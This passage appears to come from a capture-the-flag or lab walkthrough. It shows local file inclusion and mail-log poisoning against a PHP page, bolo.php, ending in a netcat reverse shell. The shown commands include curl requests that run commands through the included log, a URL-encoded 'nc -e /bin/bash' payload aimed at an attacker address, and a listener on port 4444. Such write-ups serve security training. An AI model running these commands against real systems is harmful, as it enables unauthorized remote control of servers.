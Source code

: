 ![](images/7.png)

Go to Postfix mail log file `/var/log/mail`

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Getting reverse shell

``` bash
hURL -U 'nc -nv 192.168.56.110 4444 -e /bin/bash'
```

``` bash
cmd='nc%20-nv%20192.168.56.110%204444%20-e%20%2Fbin%2Fbash'
```

``` bash
curl -v --silent "http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=$cmd" 2>&1 | sed -ne '/hades/,$ p' | sed '/hades@/Q' | sed 's/.*hades //'
```

``` bash
sudo nc -nvlp 4444
```
